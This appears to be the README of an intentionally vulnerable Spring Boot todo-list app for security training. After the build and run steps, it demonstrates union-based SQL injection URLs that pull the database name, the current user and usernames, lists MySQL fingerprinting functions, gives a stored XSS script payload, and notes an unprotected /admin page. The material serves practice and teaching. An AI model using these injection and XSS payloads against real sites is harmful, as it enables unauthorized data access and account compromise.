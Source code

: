 # Non-Secure TodoList

Todo list have got existing vulnerability

## Getting Started


### How to Run

#### Build Spring Boot Project with Maven
To be able to run your Spring Boot app you will need to first build it. To build and package a Spring Boot app into a single executable Jar file with a Maven, use the below command. You will need to run it from the project folder which contains the pom.xml file.
  ```
  maven package
  ```
  or you can also use
  ```
  mvn install
  ```
  
#### Run Spring Boot app with java -jar command
To run your Spring Boot app from a command line in a Terminal window you can you the java -jar command. This is provided your Spring Boot app was packaged as an executable jar file.  

 ```
 java -jar target/todolist-0.0.1-SNAPSHOT.jar
 ```

#### Run Spring Boot app using Maven
You can also use Maven plugin to run your Spring Boot app. Use the below example to run your Spring Boot app with Maven plugin
  
  ```
  mvn spring-boot:run
  ```
  
  for windows
  ```
  mvnw spring-boot:run
  ```


## Running the tests

- Project will start on 8080 port and you can access localhost:8080
- You must register for add post

### SQL INJECTION

- After adding article , go to article detail page for sql injection (lhttp://localhost/post/1)
- Some sql injection script ()

```
  http://localhost:8080/post/1 order by 6--
```

Now we will use Union select statement over here.

```
  http://localhost:8080/post/-1 order by 6--
```

Here a small understanding of the web application is required, If you see any of these numbers printed in the webpage or the title or anywhere else then you can know the the developer is printing multiple rows

| Variable/Function  | Output |
| ------------- | ------------- |
| @@hostname  | Current Hostname  |
| @@tmpdir  | Tept Directory  |
| @@datadir  | Data Directory  |
| @@version  | Version of DB  |
| @@basedir  | Base Directory  |
| user()  | Current User  |
| database()  | Current Database  |
| version()  | Version  |
| schema()  | current Database  |
| UUID()  | System UUID key  |
| current_user()  | Current User  |
| system_user()  | Current System User  |
| session_user  | Current Session User  |
| @@GLOBAL.have_symlink  | Check if Symlink Enabled or Disabled  |
| @@GLOBAL.have_ssl  | Check if it have ssl or not  |


As we know that third is the column which is getting printed so now we will use the above functions on place of that columns only.

```
To get the Current Database Name
http://localhost:8080/post/-1 union select 1,2,database(),4,5,6--
```

```
To get the Current User
http://localhost:8080/post/-1 union select 1,2,user(),4,5,6--
```

Query : Select column1 from tablename

```
http://localhost:8080/post/-1 union Select 1,2,concat(USER_NAME),4,5,6 from User limit 0,1--

```

This allows access to other user information.

### Cross Site Scripting (XSS)

### Stored/Persistent XSS
 Where the malicious string originates from the website's database.
 
 -You can add scripting code into post title input then you execute this code.
 -You can try to put javascript code into title input as following
 
 <script>window.location.replace("http://google.com");</script>
 
## FINAL PROJECT UPDATE
 
### Security Misconfiguration

You can enter post detail page and put quotes after the url and site shows you vulnerability on screen

### Broken Access Control

if you create new user ,you can try to access /admin page and you see this user access this url becouse of there is no 'OPA' control 




